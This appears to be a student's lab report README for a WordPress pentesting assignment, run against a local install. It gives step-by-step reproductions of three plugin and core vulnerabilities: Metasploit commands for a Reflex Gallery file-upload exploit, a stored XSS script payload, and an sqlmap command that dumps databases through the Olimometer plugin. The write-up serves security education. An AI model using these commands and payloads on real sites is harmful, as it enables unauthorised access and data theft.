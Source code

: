 # Project 7 - WordPress Pentesting

Time spent: **10** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. Arbitrary File Upload
  - [x] Summary: Using Metasploit, allows the user to gain access to the file system.
    - Vulnerability types: Arbitrary File Upload
    - Tested in version: 3.1.3 (Reflex Gallery)
    - Fixed in version: 3.1.4 (Reflex Gallery)
  - [x] GIF Walkthrough: <img src="arbitrary_file.gif">
  - [x] Steps to recreate: 
	1. ```server postgresql start```
	2. ```msfdb init```
	3. ```msfconsole```
	4. At this point, you will be inside of the Metasploit console
	5. ```db_status``` (If it reads Connected to msf, you're good to go)
	6. ```search Reflex```
	7. ```use 0```
	8. ```set RHOST 127.0.0.1```
	9. ```set RPORT 8080```
	10. ```set LHOST 192.168.65.3``` (Different in some cases, it's eth0 under ifconfig)
	11. ```exploit``` (this will gain you access to the file system to edit php files)
	
### 2. XSS Comment (Authorized)
  - [x] Summary: 
    - Vulnerability types: XSS using comments that are authorized on WP
    - Tested in version: 4.1
    - Fixed in version: 4.1.26
  - [x] GIF Walkthrough: <img src="XSS_Comment_Scripting.gif">
  - [x] Steps to recreate: 
	1. **Login to Admin account on WordPress**
	2. **Find a comment to post on**
	3. **Post a javascript tag in the comment box**
	4. Example: ```<script>alert('XSS!');</script>```
	
### 3. SQL Injection Olimometer_id Plugin
  - [x] Summary: 
    - Vulnerability types: SQL Injection
    - Tested in version: 2.56
    - Fixed in version: ***Not Fixed as of currently***
  - [x] GIF Walkthrough: <img src="SQL_injection.gif">
  - [x] Steps to recreate: 
	1. Download **Olimometer Plugin** for Word Press
	2. Run SQL map with this command
		-```sqlmap -u http://localhost:8080/wp-content/plugins/olimometer/thermometer.php?olimometer_id=1 --dbs --threads=5 --random-agent --no-cast```
	3. It should dumb two databases ```exampldb``` and ```information_schema```

## Resources

- [WordPress Scan] (https://wpscan.com)

GIFs created with Screen To GIF

## Notes

**DO NOT FOR THE LOVE OF GOD UPDATE WORDPRESS WHEN DOING THIS UNIT, IT WAS A PAIN TO UNDO.**
